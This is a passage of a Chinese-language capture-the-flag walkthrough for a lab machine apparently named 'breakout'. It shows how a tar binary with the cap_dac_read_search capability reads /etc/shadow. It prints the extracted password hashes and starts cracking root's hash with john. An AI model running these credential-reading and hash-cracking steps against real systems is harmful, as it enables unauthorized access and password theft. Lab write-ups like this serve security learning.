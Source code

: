         `tar`是一个可执行文件，我们检测suid 和capability，通过**`getcap`**命令发现它有**`cap_dac_read_search=ep`**，因此它可以读取任意文件（利用该tar 打包再解压就可以查看没有权限查看的文件内容）
        
        ```python
        [cyber@breakout ~]$ ls -al | grep tar
        -rwxr-xr-x  1 root  root  531928 Oct 19  2021 tar
        [cyber@breakout ~]$ getcap tar
        tar cap_dac_read_search=ep
        ```
        
3. 这样我们就可以使用`tar`来读取隐私文件了
    - 读取`shadow`文件，注意：使用`tar`必须是家目录下的`tar`
        
        ```python
        [cyber@breakout ~]$ ./tar -cvf shadow.tar /etc/shadow
        ./tar: Removing leading `/' from member names
        /etc/shadow
        [cyber@breakout ~]$ ./tar -xvf shadow.tar
        etc/shadow
        [cyber@breakout ~]$ cat etc/shadow
        root:$y$j9T$M3BDdkxYOlVM6ECoqwUFs.$Wyz40CNLlZCFN6Xltv9AAZAJY5S3aDvLXp0tmJKlk6A:18919:0:99999:7:::
        daemon:*:18919:0:99999:7:::
        bin:*:18919:0:99999:7:::
        sys:*:18919:0:99999:7:::
        sync:*:18919:0:99999:7:::
        games:*:18919:0:99999:7:::
        man:*:18919:0:99999:7:::
        lp:*:18919:0:99999:7:::
        mail:*:18919:0:99999:7:::
        news:*:18919:0:99999:7:::
        uucp:*:18919:0:99999:7:::
        proxy:*:18919:0:99999:7:::
        www-data:*:18919:0:99999:7:::
        backup:*:18919:0:99999:7:::
        list:*:18919:0:99999:7:::
        irc:*:18919:0:99999:7:::
        gnats:*:18919:0:99999:7:::
        nobody:*:18919:0:99999:7:::
        _apt:*:18919:0:99999:7:::
        systemd-timesync:*:18919:0:99999:7:::
        systemd-network:*:18919:0:99999:7:::
        systemd-resolve:*:18919:0:99999:7:::
        messagebus:*:18919:0:99999:7:::
        cyber:$y$j9T$x6sDj5S/H0RH4IGhi0c6x0$mIPyCIactTA3/gxTaI7zctfCt2.EOGXTOW4X9efAVW4:18919:0:99999:7:::
        systemd-coredump:!*:18919::::::
        ```
        
4. 尝试`john`破解`root`密码
    
    将root的密码复制保存到`password`
    
    ```python
    john password --format=crypt 
    Using default input encoding: UTF-8
    Loaded 1 password hash (crypt, generic crypt(3) [?/64])
    Cost 1 (algorithm [1:descrypt 2:md5crypt 3:sunmd5 4:bcrypt 5:sha256crypt 6:sha512crypt]) is 0 for all loaded hashes
    Cost 2 (algorithm specific iterations) is 1 for all loaded hashes
    Will run 8 OpenMP threads
    Proceeding with single, rules:Single
    Press 'q' or Ctrl-C to abort, almost any other key for status
    Almost done: Processing the remaining buffered candidate passwords, if any.
    Proceeding with wordlist:/usr/share/john/password.lst
    ```
    
